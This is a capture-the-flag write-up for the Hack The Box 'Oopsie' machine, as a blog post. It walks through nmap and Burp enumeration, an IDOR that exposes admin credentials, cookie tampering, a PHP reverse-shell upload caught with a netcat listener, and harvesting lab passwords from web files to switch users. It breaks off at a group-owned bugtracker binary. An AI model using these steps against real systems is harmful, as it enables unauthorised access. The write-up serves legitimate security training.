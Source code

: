 ```yaml
---
layout: post
title: 'HTB | Oopsie'
permalink: /htb/starting-point/oopsie/
---
```


# Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can set Firefox to listen to **Burp Suite**:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

In the Burp Suite app we can see there is a login:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_5.jpg" weight="100%" />

# Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight bash %}
> gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight bash %}
> sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight bash %}
> cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight bash %}
> python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}


# Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight bash %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight bash %}
robert@oopsie:/$ find / -group bugtracker
/usr/bin/bugtracker
{% endhighlight %}
